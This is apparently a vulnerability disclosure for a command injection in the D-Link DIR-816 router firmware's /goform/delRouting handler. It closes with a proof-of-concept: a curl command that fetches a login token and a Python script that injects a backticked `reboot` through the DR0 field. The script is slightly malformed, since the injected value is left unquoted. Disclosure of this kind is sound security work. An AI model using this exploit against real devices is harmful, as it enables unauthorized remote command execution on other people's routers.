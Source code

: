 ## DIR-816 Command Injection

### Overview

- Manufacturer's address：http://www.dlink.com.cn/
- Firmware download address ：https://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DIR-816

### Affected version

D-Link DIR-816  A2V1.1.0B05 was found to contain a command injection in `/goform/delRouting` of the component Web Interface, which allows remote attackers to execute arbitrary commands via shell.

![image-20250310195139787](C:\Users\dflac_961unic\Desktop\报洞\DIR-816.assets\image-20250310195139787.png)

### Vulnerability details

Vulnerability occurs in `/goform/delRouting`. Attackers can control `Var` by setting the `DR0`. The program then splits `Var` into three parts, `v11`, `v12`, and `v13`, and passes them to function `sub_428FF0`.

![image-20250310195641097](C:\Users\dflac_961unic\Desktop\报洞\DIR-816.assets\image-20250310195641097.png)

In the function `sub_428FF0`, the three parameters are concatenated into the command `route del`, and finally called by `doSystem`.

![image-20250310200032609](C:\Users\dflac_961unic\Desktop\报洞\DIR-816.assets\image-20250310200032609.png)

Anyway, system command was called, and its parameter `v9` was passed by `Var`, which controlled by attackers.

Based on the cause of the vulnerability, attackers can arbitrarily execute the command by setting the `DR0`.

### EXP

First, attackers need to get the token ID.

```
curl http://192.168.0.1/dir_login.asp | grep tokenid
```

Then, run exp.

```
import requests

tokenid = ''

url = 'http://192.168.0.1/goform/delRouting'

payload = b'a' * 10000

data = {
    'tokenid': tokenid,
    'DR0': a`reboot` b c
}

print('payload sending...')
r = requests.post(url, data)
print('end')
```
